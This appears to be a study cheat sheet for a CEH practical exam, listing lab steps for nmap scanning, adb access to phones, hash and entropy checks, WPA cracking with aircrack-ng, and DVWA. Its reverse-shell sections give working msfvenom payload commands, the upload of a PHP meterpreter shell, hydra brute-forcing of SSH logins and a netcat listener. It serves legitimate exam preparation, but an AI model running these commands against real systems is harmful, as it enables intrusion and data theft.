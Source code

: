 # Finding and Accessing Mobile Devices
1. sudo nmap -p 192.168.0.0/24
2. adb connect <target_ip>:5555
3. adb shell
4. Use ls, cd and pwd to navigate
5. adb pull to get certain files

# Example Question ELF
A mobile device in the 192.168.0.0/24 subnet has malicious files. Obtain the elf files and find the hash of the file with the highest entropy value
1. Refer to #Finding and Accessing Mobile Devices to obtain files
2. After obtaining all files, use entropy tool to determine highest value
3. ent -h OR apt install ent
4. ent <files found> 
    - Determine highest value after scanning all files
5. sha384sum <file>
    - good for determining SHA 384 Hashes

# Encrypted Volumes
1. Use Veracrypt to decrypt the volume
2. Select File... -> Choose a Drive to mount on -> Mount
3. There is normally a password to decrypt. It should be provided somewhere.
4. Go to unlocked Drive, do your task.

# Cracking Hashes
1. Use www.hashes.com

# Remote Access Trojans (RAT)
1. Try to find unusual ports by running
2. nmap -T5 -A -p- <ip> (will take time)
3. Find the unusual port and then go to Windows Box
4. CEH Module 7 Malware Threats -> Trojan Types -> RAT -> Theef
5. Input ip and port and connect
6. Select 'file explorer' to browse through directory

# Hash Tampering
1. Use MD5 Calculator to compare hashes

# Finding files in DVWA
If given a link (http://192.168.0.##:8080/DVWA)
And a path Eg. “C:\wamp64\www\DVWA\hackable\uploads\”
1. Take the tail of the path (\hackable\uploads\) and add it to the end of the link
2. Should show a file directory with target files.

# Analyzing IoT Traffic
1. Use Wireshark and filter by MQTT
2. Finding a message or topic should be in the info section

# Analyzing Wireless Traffic
1. Use aircrack-ng <.cap file>
2. aircrack-ng -b <MAC address> -w '<Password list>' '<.cap file>'
3. Should output the password

# Reverse Shells
1. If asked to perform vulnerability research on a webapp, try using Zap
2. Eg. If scanning DVWA, you'll find file inclusion/file upload vulnerabilities
3. Use metasploit to create a reverse shell
4. msfconsole
5. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php 
    - Creates a php file with a reverse shell going to localhost:4444
6. > use exploit/multi/handler
    - Handles the exploit and gives shell
7. > set payload php/meterpreter/reverse_tcp
8. Set LHOST <target ip>
9. Upload the created exploit.php file
10. Open a terminal and type run. Put URL into browser and should create a meterpreter session.
11. ls to look for target files

# Reverse Shell Alt Scenario
A target that has remote login and command-line execution and is running Linux. Gain access and find a target file. (subnet is 192.168.0.0/24)
1. nmap -p 22,23,80,3389 192.168.0.0/24
    - Check ssh, telnet, tcp and rdp (in this example, found 192.168.0.100)
2. sudo nmap -sS -sV -p- -O 192.168.0.100
    - Eg. Found open telnet port
3. telnet 192.168.0.100 80 and GET / HTTP/1.0
4. Try using hydra to break weak credentials on ssh
5. hydra -L user.txt -P pass.txt 192.168.0.100 ssh
    - Eg. Found ubuntu user with weak password
6. ssh ubuntu@192.168.0.100
7. telnet 192.168.0.100
8. Once inside, create reverse shell with metasploit
    - msfvenom -p cmd/unix/reverse_netcat LHOST=<my_ip> LPORT=4444
9. Listen on port 4444 from own machine
    - nc -nvlp 4444
10. Once shell is obtained, find file with the following command:
    - find . -name target.txt